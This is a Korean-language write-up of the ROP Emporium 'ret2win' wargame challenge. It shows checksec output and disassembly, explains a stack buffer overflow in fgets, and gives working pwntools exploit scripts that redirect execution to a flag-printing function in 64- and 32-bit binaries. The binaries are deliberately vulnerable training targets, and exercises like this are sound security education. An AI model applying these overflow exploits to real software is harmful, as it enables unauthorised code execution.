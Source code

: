 ```yaml
---
title: ROP Emporium writeups
tags: assignment5 wargame ctf writeup pwnable rop ropemporium.com
---
```

## 0. ret2win
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
main함수는 별거 없고 pwnme를 호출해 준다.
```nasm
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   ...
   0x00000000004007fd <+72>:    lea    rax,[rbp-0x20]
   0x0000000000400801 <+76>:    mov    esi,0x32
   0x0000000000400806 <+81>:    mov    rdi,rax
   0x0000000000400809 <+84>:    call   0x400620 <fgets@plt>
   0x000000000040080e <+89>:    nop
   0x000000000040080f <+90>:    leave
   0x0000000000400810 <+91>:    ret
End of assembler dump.
```
rbp-0x20에 0x32만큼의 입력을 받기 때문에 bof에 취약하다.

이를 이용해서 return 주소를 덮어씌우면 된다.

덮어씌우는 주소는 ret2win이라는 함수로, ``system('/bin/cat flag.txt')``를 포함한다.

exploit.py:
```python
from pwn import *

e = ELF('./ret2win')
p = process('./ret2win')

pl = 'a'*0x28 + p64(e.symbols['ret2win'])

p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
exploit32.py:
```python
from pwn import *

e = ELF('./ret2win32')
p = process('./ret2win32')

pl = 'a'*0x2c + p32(e.symbols['ret2win'])

p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/ret2win$ python exp.py
```